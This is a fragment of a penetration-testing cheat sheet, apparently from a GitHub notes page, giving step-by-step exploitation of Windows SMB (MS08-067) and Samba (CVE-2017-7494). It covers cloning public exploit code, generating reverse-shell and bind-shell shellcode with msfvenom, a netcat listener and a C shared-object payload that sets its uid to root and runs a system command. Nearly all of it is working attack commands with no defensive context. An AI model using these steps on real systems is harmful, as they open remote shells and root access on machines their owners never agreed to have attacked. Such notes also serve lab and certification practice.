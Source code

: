 #### If this doesn't work, try this one

```
python zzz_exploit.py <IP>
```

### MS08-067

```
# Download exploit code
git clone https://github.com/andyacer/ms08_067.git

# Generate payload
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
msfvenom -p windows/shell_bind_tcp RHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

# Modify
Modify ms08_067_2018.py and replace the shellcode variable by the one generated with msfvenom.

# Listener
nc -lvp <PORT>

# Exploit
python ms08_067_2018.py <IP> <NUMBER> 445
```

### CVE-2017-7494

```
# Download exploit code
git clone https://github.com/joxeankoret/CVE-2017-7494
```

Create a new file named poc.c :

```
#include <stdio.h>
#include <stdlib.h>

int samba_init_module(void)
{
	setresuid(0,0,0);
	system("ping -c 3 <IP>");
}
```

```
# Build
gcc -o test.so -shared poc.c -fPIC
```

```
# Start an ICMP listener
sudo tcpdump -i <INTERFACE> icmp

# Exploit
./cve_2017_7494.py -t <TARGET_IP> -u <USER> -P <PASSWORD> --custom=test.so
```
